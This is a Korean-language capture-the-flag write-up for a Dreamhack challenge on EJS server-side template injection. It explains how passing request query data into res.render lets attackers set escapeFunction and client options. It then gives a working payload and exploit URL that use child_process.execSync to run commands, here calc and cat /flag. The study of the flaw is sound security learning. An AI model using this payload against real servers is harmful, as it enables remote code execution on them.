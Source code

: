 # ejs@3.1.8
https://dreamhack.io/wargame/challenges/675
## Description
find bug and exploit !

# Exploit
## Find bug
```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/', (req,res) => {
    res.render('index', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```
client에게 EJS렌더링에 대해 무제한 엑세스 권한을 부여해 취약점이 발생한다.    
https://github.com/mde/ejs/blob/main/SECURITY.md
<br><br>

### ejs@3.1.6
```js
if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
          opts.views = data.settings.views;
        }
        if (data.settings['view cache']) {
          opts.cache = true;
        }
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
      }
```
`opts`에 원하는 값을 넣을 수 있다.
<br><br>

```js
if (opts.outputFunctionName) {
  if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) {
    throw new Error('outputFunctionName is not a valid JS identifier.');
  }
  prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
즉 `opts.outputFunctionName`을 덮어쓸수 있었다.       
https://eslam.io/posts/ejs-server-side-template-injection-rce/

###  > ejs@3.1.6
```js
compile: function (){

    // ~~~

    // Line 580
    var escapeFn = opts.escapeFunction;

    // ~~~

    // Line 591
    if (opts.outputFunctionName){
        if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
          throw new Error('outputFunctionName is not a valid JS identifier.');
      
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
    }

    // ~~~

    // Line 636
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }

    // ~~~
}
```
https://github.com/mde/ejs/blob/5b13088c6de0bff1ce5c6ff2eef7ee7eff0d6f3e/lib/ejs.js#L571
<br><br>

```js
if (opts.outputFunctionName){
    if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
      throw new Error('outputFunctionName is not a valid JS identifier.');
  
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
유저가 직접 사용가능한 `opts.escapeFunction`같은 함수는 `if (!_JS_IDENTIFIER.test(opts.outputFunctionName))`으로 검사한다. 
<br><br>

```js
var escapeFn = opts.escapeFunction;
```
하지만 `opts.escapeFunction`은 이미 `escapeFn`에 저장되어있다.
<br><br>

```js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```
`opts.client`가 `true`라면 컴파일엔 `escapeFn.toString()`가 담긴다.

### Payload
`?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("calc");`
<br><br>

## Exploit
`http://host3.dreamhack.games:<PORT>/?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("cat /flag");`

# Reference
[blog.huli.tw](https://blog.huli.tw/2023/06/22/en/ejs-render-vulnerability-ctf/)     
[Web-127-CODEGATE-Music-Player-30-solves](https://nanimokangaeteinai.hateblo.jp/entry/2023/06/19/120016#Web-127-CODEGATE-Music-Player-30-solves)    
[Github issue](https://github.com/mde/ejs/issues/735)    
[Github issue](https://github.com/advisories/GHSA-j5pp-6f4w-r5r6)    

